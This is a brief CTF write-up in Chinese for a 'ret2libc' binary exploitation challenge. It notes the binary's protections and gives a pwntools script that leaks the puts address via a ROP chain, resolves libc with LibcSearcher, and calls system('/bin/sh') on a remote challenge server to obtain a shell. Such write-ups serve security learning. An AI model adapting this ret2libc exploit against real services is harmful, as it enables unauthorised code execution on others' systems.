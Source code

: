 # W2 ret2libc

## 文件分析

下载`ret2libc`, NX on, PIE off, Canary off, RELRO partial  
ghidra分析为64位程序

## 逆向

参考我的moectf2023和cbctf的wp，很常规的一题

## EXPLOIT

```python
import LibcSearcher
from pwn import *
sh = remote('node4.buuoj.cn', 29167)
elf = ELF('ret2libc')

putsPlt = elf.plt['puts']
putsGot = elf.got['puts']
popRdiAddr = 0x400763
mainAddr = elf.symbols['main']

# payload 1
sh.sendline(b'0'*0x28 + p64(popRdiAddr) + p64(putsGot) + p64(putsPlt) + p64(mainAddr))

sh.recvuntil(b'time\n') # skip
data = sh.recv()
putsGotAddr = u64(data[:6] + b'\0\0')
libc = LibcSearcher.LibcSearcher('puts', putsGotAddr & 0xfff)
libcBase = putsGotAddr - libc.dump('puts')
shstrAddr = libcBase + libc.dump('str_bin_sh')
systemAddr = libcBase + libc.dump('system')
retAddr = 0x4006f1

# payload 2
sh.sendline(b'0'*0x28 + p64(popRdiAddr) + p64(shstrAddr) + p64(retAddr) + p64(systemAddr))

sh.interactive()
```

Done.
